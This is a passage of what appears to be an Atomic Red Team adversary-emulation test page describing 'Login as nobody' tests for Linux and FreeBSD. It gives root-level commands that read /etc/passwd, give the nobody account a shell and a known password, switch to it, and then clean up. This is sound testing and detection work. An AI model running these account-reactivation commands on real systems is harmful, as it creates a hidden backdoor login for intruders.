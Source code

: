 #### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
cat /etc/passwd |grep nobody
# -> nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
chsh --shell /bin/bash nobody
usermod --password $(openssl passwd -1 nobody) nobody
su nobody
whoami
exit
```

#### Cleanup Commands:

```bash
chsh --shell /usr/sbin/nologin nobody
cat /etc/passwd |grep nobody
# -> nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

<br/>
<br/>

## Atomic Test #12 - Login as nobody (freebsd)

An adversary may try to re-purpose a system account to appear legitimate. In this test change the login shell of the nobody account, change its password to nobody, su to nobody, exit, then reset nobody's shell to /usr/sbin/nologin.

**Supported Platforms:** Linux

**auto_generated_guid:** 16f6374f-7600-459a-9b16-6a88fd96d310

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
cat /etc/passwd |grep nobody
# -> nobody:x:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
pw usermod nobody -s /bin/sh
echo $(openssl passwd -1 art) | pw mod user nobody -h 0
su nobody
whoami
exit
```

#### Cleanup Commands:

```sh
pw usermod nobody -s /usr/sbin/nologin
cat /etc/passwd |grep nobody
# -> nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
```

<br/>
